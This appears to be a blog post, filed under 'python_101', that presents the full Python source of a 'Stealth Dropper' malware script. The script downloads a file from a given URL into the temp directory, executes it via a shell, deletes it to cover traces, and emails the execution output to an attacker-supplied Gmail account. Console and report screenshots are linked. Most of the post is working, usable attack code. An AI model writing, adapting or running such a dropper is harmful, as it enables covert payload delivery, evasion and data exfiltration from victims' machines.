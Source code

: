 ```yaml
---
title: Malware - Stealth Dropper
date: 2021-08-19 10:45:47 +07:00
categories: python_101
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: Downloads, executes, reports and cleans up after.
---
```


<p align="left">
 <img src="https://i.imgflip.com/4/3pt59r.jpg">
</p>

## A Cross Platform python script that downloads, executes, reports and cleans up after.


- We implement:
  > the tempfile module - to find the temp dir.

  > the `os module` - to use platform independent functions like chdir to change to the temp dir.

  > the `subprocess module `- to execute and remove the created file.

  > the `smtplib module` - to create an SMTP instance to send our reports back to our proviced mail address.


### Code:

```python
#!/usr/bin/env python

import requests, subprocess, smtplib, os, tempfile, argparse

# Cross-Platform
# Works by default with google's SMTP


def get_arguments():
    parser = argparse.ArgumentParser()
    parser.add_argument("-d", "--download-file", dest="download", help="File to Download")
    parser.add_argument("-a", "--args", dest="args", help="args if provided by Download file")
    parser.add_argument("-e", "--email", dest="email", help="Email-ID to recieve report")
    parser.add_argument("-p", "--password", dest="password", help="Password for provided Email-ID")
    options = parser.parse_args()
    if not options.download:
        # code to handle error
        parser.error("\n[-] Please specify a valid download url,  use --help for info.")
    if not options.email:
        # code to handle error
        parser.error("\n[-] Please specify a valid Email-ID,  use --help for info.")
    return options


def download(url):
    get_response = requests.get(url)
    file_name = url.split("/")[-1]
    # Open File with write and binary mode
    with open(file_name, "wb") as out_file:
        out_file.write(get_response.content)
    return file_name

def send_mail(email, password, message):
    # Google's SMTP definition
    server = smtplib.SMTP("smtp.gmail.com", 587)
    server.starttls()
    server.login(email, password)
    server.sendmail(email, email, message)
    server.quit()


print("""\n\n\n
                                                        𝕾𝖙𝖊𝖆𝖑𝖙𝖍-𝕯𝖗𝖔𝖕𝖕𝖊𝖗
    """)


print("\n{-} Finding /tmp dir.")
options = get_arguments()


# Find /tmp dir on OS
temp_directory = tempfile.gettempdir()
os.chdir(temp_directory)
print("{+} /tmp dir found!")

# Download
file_name = download(options.download)
print("\n{+} File " + file_name + " has been succesfully dropped!")
# Execute
result = subprocess.check_output(file_name + " " +  options.args, shell=True)
print("{+} File " + file_name + " has been succesfully Executed!")
# Remove
os.remove(file_name)
print("{+} File " + file_name + " has been succesfully Removed!")
# Report
send_mail(options.email, options.password, result)
print("\n\n{!} Report sent to: " + options.email)
```

### Output:

_Console:_

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/Malware-Stealth_Dropper/dropper.png)

_Report:_

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/Malware-Stealth_Dropper/dropper2.png)




